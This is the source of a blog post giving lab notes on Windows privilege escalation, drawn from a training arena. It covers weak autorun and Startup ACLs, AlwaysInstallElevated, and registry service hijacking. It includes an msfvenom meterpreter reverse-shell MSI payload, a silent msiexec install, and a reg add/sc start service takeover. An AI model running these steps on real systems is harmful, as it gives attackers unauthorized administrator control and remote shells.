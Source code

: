 ```yaml
---
layout: post
title: "Windows PrivEsc"
date:   2020-05-23 10:00:00
---
```

Here some of classic examples of windows priv esc (from Windows PrivEsc Arena/TCM)

# Windows - Accesschk
Accesschk is a useful console program for viewing the permissions on files, registry keys, services...
By combining the option:
{% highlight bash %}
-w : write access
-u : supress errors
-v : verbose
{% endhighlight %}
You can find directories in which you have write access with elevated privileges.

# Windows - Autorun
Autorun or Startup programs are services managed by the Service Manager
{% highlight bash %}
C:\Program Files\Autorun Program
{% endhighlight %}
If the permission for Everyone is FILE_ALL_ACCESS, so you just need to drop your program and wait for the admin to log in.

# Windows - Startup
This is the same thing as before, checking ACL permission:
{% highlight bash %}
iacls.exe C:\ProgramData\Microsoft\Windows\Start Menu\Prgrams\Startup
{% endhighlight %}
If the output is on full access (F) for BUILTIN\Users, then drop your program to do a reverse shell.
The target need to be logon as Administrator for the privilege access.

# Windows - Always Installed Elevated
One good way to know is the Installed Elevated feature is enable is to do:

<img src="{{ site.baseurl }}/assets/img/win_privesc/alwaysinstalled.png">
{% highlight bash %}
HKLM: H_KEY_Local_Machine
HKCU: H_KEY_Current_User
{% endhighlight %}
It represents the configuration related to the local machine and to the current user.

So what you need to do is generate a msi package:
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp lhost=[your ip] -f msi -o setup.msi
{% endhighlight %}

And on the Windows machine execute it in background:
{% highlight bash %}
msiexec /quiet /qn /i C:\temp\setup.msi
/qn: no UI
/i: normal installation
/quiet: quiet mode (no user interaction)
{% endhighlight %}

# Windows Registry
In order to verify the fullControl privilege on the services, with powershell you can check:
{% highlight bash %}
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\services\regsvc | fl
{% endhighlight %}
Should display: NT AUTHORITY\INTERACTIVE
That means you can create your custom service, replace the original one and execute it:
{% highlight bash %}
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /d c:\temp\service.exe /f
/v ImagePath: path of the service (this is the value)
/d for the data of the value
/f  add the registry key without prompting for confirmation
{% endhighlight %}
And then you can execute your service:
{% highlight bash %}
sc start regsvc
{% endhighlight %}
<img src="{{ site.baseurl }}/assets/img/win_privesc/services1.png">
<img src="{{ site.baseurl }}/assets/img/win_privesc/services2.png">
